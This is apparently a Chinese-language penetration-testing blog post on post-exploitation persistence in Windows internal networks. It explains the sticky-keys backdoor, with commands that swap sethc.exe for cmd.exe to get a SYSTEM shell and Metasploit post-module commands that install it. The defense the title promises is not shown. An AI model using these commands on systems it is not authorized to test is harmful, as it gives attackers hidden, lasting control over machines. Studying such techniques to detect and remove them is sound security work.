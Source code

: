 ```yaml
---
title: 内网之权限维持分析总结
tags:
  - 知识点总结
  - 内网
categories:
  - 知识点总结
  - 内网
description: 内网之权限维持分析总结
excerpt: 内网之权限维持分析总结
typora-root-url: 内网之权限维持分析总结
abbrlink: 43552
date: 2022-04-24 10:17:39
---
```


## 内网之权限维持分析及防御

后门，本意是指在建筑物的背面开设的门，通常较为隐蔽。在信安领域，后门是指通过绕过安全控制措施获取对程序或系统访问权限的方法。简单地说，后门就是一个留在目标主机上的软件，它可以使攻击者随时与目标主机进行连接。

攻击者在提升权限之后，往往会通过建立后门来维持对目标主机的控制权。这样一来，即便修复了被攻击者利用的系统漏洞，攻击者还是可以通过后门继续控制目标系统。

### 操作系统后门分析与防范

泛指绕过目标系统安全控制体系的正规用户认证过程来维持对目标系统的控制权及隐匿控制行为的方法。系统维护人员可以清除操作系统中的后门，以恢复目标系统安全控制系统的正规用户认证过程。

#### 粘滞键后门

一种常见的持续控制方法。

在Windows主机上连续按5次"Shift"键，就可以调出粘滞键。该程序主要为无法同时按多个按键的用户设计的。例如截图时，使用Win + Shift + S，用户需要同时按键，如果使用粘滞键，则需要按下一个键。

使用可执行文件替换windows\system32目录下的粘滞键可执行文件`sethc.exe`：

```powershell
cd windows\system32
move sethc.exe sethc.exe.bak
copy cmd.exe sethc.exe
```

这样连续按五次Shift键时，就会启动CMD，并且权限为System。

##### MSF添加粘滞键后门

Empire这东西已经太久没人维护了，使用MSF添加粘滞键后门(需要高权限)如下：

```powershell
# in meterpreter
run post/windows/manage/sticky_keys
# when background
use post/windows/manage/sticky_keys
set session [session_id]
run
```
